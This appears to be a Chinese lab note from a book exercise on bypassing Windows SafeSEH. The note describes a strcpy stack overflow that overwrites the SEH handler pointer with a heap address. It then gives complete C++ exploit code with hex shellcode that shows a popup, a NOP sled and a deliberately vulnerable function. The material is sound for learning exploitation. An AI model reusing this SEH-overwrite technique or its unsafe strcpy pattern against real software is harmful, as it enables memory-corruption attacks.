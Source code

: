## from 11.4

实验要点：

当strcpy时产生溢出，当test时出现异常，异常调用的SEH中的异常函数指针指向堆区，故可以绕过safeSEH。

shellcode在堆中的位置：0x00392A60

shellcode在栈中的起始位置：0x0012FDB4

test栈中的SEH处理指针：0x0012FFAC->0x00411078

所以shellcode：504(shellcode+patch)+addr(0x00392A60)

使用书中的弹窗shellcode，得到的整个代码：  

```C++
#include<stdlib.h>
#include<string>
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
//patch
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x60\x2A\x39\x00"
;
void test(char * input)
{
	char str[200];
	strcpy(str,input);
	//__asm int 3;
	int zero=0;
	zero=1/zero;
}
void main()
{
	char * buf=(char *)malloc(500);
	//__asm int 3
	strcpy(buf,shellcode);
	test(shellcode);
}
```
